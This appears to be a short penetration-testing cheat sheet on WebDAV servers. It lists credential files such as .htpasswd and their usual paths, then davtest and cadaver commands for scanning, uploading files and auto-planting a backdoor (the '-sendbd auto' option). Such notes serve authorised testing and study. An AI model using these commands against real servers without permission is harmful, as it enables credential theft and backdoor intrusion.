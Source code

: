 # webdav

## Cred File

```bash
# names
.htpasswd
passwd.dav

# check in
/etc/apache2
/var/www
/var/www/html
/var/www/html/*/webdav
```

## davtest (auto-scan)

```bash
davtest -url http://IP/PATH -cleanup [-auth user:pass] [-nocreate]
# cleanup: clean post testing
# nocreate: does not create directory to test in webdav root dir

# auto backdoor on successful upload
$ davtest -url http://IP/PATH [-auth user:pass] -sendbd auto

# upload file
davtest -url http://IP/PATH [auth user:pass] -uploadfile <FILE> -uploadloc <FILENAME-ON-SERVER>
```

## cadaver (manual enum)

```bash
cadaver http://IP/PATH
# will ask your user:pass

put <FILE>
```

{% embed url="https://book.hacktricks.xyz/pentesting/pentesting-web/put-method-webdav" %}
